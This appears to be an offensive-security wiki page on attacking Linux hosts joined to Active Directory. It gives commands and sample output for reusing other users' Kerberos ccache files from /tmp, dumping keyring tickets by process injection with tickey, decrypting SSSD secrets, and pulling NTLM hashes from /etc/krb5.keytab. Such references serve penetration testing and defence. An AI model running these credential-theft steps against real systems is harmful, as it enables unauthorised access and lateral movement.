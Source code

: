 # Linux Active Directory

## Theory

A linux machine can also be present inside an Active Directory environment.

A linux machine in an AD might be **storing different CCACHE tickets inside files. This tickets can be used and abused as any other kerberos ticket**. In order to read this tickets you will need to be the user owner of the ticket or **root** inside the machine.

## Practice

{% hint style="info" %}
**Tip: convert ticket to UNIX <-> Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Tools

{% tabs %}
{% tab title="Linkatz" %}
[linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool to attack AD on UNIX. It allow you to dump credentials and kerberos cached tickets.

```bash
linikatz.sh
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from /tmp

{% tabs %}
{% tab title="Reuse tickets" %}
When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

List the current ticket used for authentication with `env | grep KRB5CCNAME`. The format is portable and the ticket can be **reused by setting the environment variable** with `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID.

```bash
ls /tmp/ | grep krb5cc
krb5cc_1000
krb5cc_1569901113
krb5cc_1569901115

export KRB5CCNAME=/tmp/krb5cc_1569901115
```

{% hint style="info" %}
You may use the ticket using [Pass The Ticket ](../../../ad/movement/kerberos/ptt.md)techniques
{% endhint %}
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from keyring

{% tabs %}
{% tab title="Reuse tickets" %}
Processes may **store kerberos tickets inside their memory**, the [tickey](https://github.com/TarlogicSecurity/tickey) tool can be useful to extract those tickets&#x20;

{% hint style="info" %}
ptrace protection should be disabled in the machine `/proc/sys/kernel/yama/ptrace_scope = 0`&#x20;
{% endhint %}

```bash
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```
{% endtab %}
{% endtabs %}

### CCACHE ticket reuse from SSSD KCM (Kerberos Cache Manager)

{% tabs %}
{% tab title="Reuse tickets" %}
SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. By default, the key is only readable if you have **root** permissions.

Invoking [SSSDKCMExtractor](https://github.com/mandiant/SSSDKCMExtractor)  with the --database and --key parameters will parse the database and **decrypt the secrets**.

```bash
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
{% endtab %}
{% endtabs %}

### Extract accounts from /etc/krb5.keytab

The service keys used by services that run as root are usually stored in the keytab file **`/etc/krb5.keytab`**. This service key is the equivalent of the service's password, and must be kept secure.

{% tabs %}
{% tab title="Unix-Like" %}
On Linux you can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). We want RC4 HMAC hash to reuse the NLTM hash.

```
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```
{% endtab %}

{% tab title="Windows" %}
Use [klist](https://adoptopenjdk.net/?variant=openjdk13\&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23 is the actual **NT Hash of the user**.

```bash
klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory" %}
